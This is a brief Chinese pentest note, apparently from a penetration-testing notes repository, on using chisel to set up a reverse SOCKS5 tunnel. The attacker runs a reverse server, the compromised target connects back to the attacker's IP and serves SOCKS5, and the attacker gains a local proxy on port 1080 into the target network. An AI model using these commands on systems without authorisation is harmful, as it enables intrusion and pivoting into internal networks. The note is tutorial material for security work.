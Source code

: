 	https://github.com/jpillora/chisel/releases
	攻击机监听
	>chisel.exe server -p 12138 --reverse
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/364.png)

	靶机执行
	>chisel.exe client 192.168.0.102:12138 R:12345:127.0.0.1:12346
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/365.png)

	靶机执行
	>chisel.exe server -p 12346 --socks5
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/366.png)

	攻击机执行
	>chisel.exe client 127.0.0.1:12345 socks
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/367.png)

	当隧道建立成功时，攻击机本地会启动1080端口
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/368.png)

	即可使用
